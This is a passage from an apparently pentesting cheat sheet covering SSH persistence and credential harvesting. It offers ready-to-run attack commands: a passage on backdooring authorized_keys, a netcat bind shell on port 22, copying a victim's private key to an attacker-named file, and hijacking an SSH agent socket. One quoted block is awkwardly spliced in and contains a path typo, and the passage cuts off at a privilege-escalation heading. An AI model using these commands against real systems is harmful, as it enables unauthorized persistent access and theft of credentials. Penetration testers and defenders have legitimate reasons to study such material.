     ```bash
    ssh user@10.10.10.10 -i id_rsa
    ```
*   **Description:** Inserts the attacker’s public key into the `authorized_keys` file, allowing persistent access without needing a password.

    ```
       While you have access to the compromised host and we find ourselves with write access to a user's `/.ssh/` directory, it is typically a good idea to backdoor the SSH `authorized_keys` file which will allow for passwordless login at a point in the future. This should provide an easier and more reliable connection than exploiting and accessing via a reverse shell; and potentially reduce the risk of detection.

      Adding the key is simply a case of paste a SSH public key, generated on your attacking machine and pasting it into the `~/ssh/authorized_keys` file on the compromised machine. This technique is usually used to gain ssh access after gaining a shell as that user. Some SSH configurations may not accept keys written by other users, so it will only work if we have already gained control over that user. We must first create a new key with ssh-keygen and the `-f` flag to specify the output file.
    ```

#### Backdoor with SSH

*   **Tool:** \[\[SSH]], \[\[Custom Scripts]]

    ```bash
    nc -l -p 22 -e /bin/sh
    ```
* **Description:** Set up a backdoor that binds a shell to port 22, allowing the attacker to regain access.

### Credential Harvesting

#### SSH Key Harvesting

*   **Tool:** \[\[Custom Scripts]], \[\[SSH]]

    ```bash
    cp ~/.ssh/id_rsa /tmp/attacker_id_rsa
    ```
* **Description:** Copies SSH private keys from the target to a location accessible by the attacker, allowing them to authenticate to other systems.

#### SSH Agent Hijacking

*   **Tool:** \[\[Custom Scripts]]

    ```bash
    SSH_AUTH_SOCK=/tmp/ssh-socket ssh-add -L
    ```
* **Description:** Hijacks the SSH agent’s socket to list and use keys loaded into the SSH agent on the victim’s machine.

### Privilege Escalation

#### Escalation via Sudo Misconfiguration
